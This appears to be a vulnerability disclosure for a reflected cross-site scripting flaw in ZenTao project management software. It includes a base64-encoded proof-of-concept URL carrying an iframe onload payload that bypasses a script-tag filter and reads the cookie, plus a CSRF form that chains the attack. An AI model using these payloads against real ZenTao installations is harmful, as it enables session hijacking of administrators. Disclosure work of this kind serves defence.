



# Cross-site Scripting Attack (XSS) in all versions of ZenTao


Impact: ZenTao project management software is an open source project management software. The latest version (Enterprise Edition<=5.0.rc1, Professional Edition<=10.0.rc1, Open Source Edition<=15.0) has cross-site scripting attacks. Users do not need to log in, they can construct a poc and get the administrator cookie.
Condition: /config/my.php set $config->requestType ='GET' 

## 1.poc

poc:
```
/index.php?m=user&f=login&t=json&referer=L2luZGV4LnBocD9tPXVzZXImZj0xJnQ9anNvbiZyZWZlcmVyPTxpZnJhbWUgb25sb2FkPSdhbGVydChkb2N1bWVudC5jb29raWUpJz4=
```


The filter ```<script>``` is used here, and it can be bypassed by using ```<iframe onload='alert(document.cookie)'>```

## 2.危害
Can be combined with csrf to construct an attack chain.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://ip:8002/index.php">
      <input type="hidden" name="m" value="user" />
      <input type="hidden" name="f" value="login" />
      <input type="hidden" name="t" value="json" />
      <input type="hidden" name="referer" value="L2luZGV4LnBocD9tPXVzZXImZj0xJnQ9anNvbiZyZWZlcmVyPTxpZnJhbWUgb25sb2FkPSdhbGVydChkb2N1bWVudC5jb29raWUpJz4&#61;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


Trigger an attack by clicking or other means.

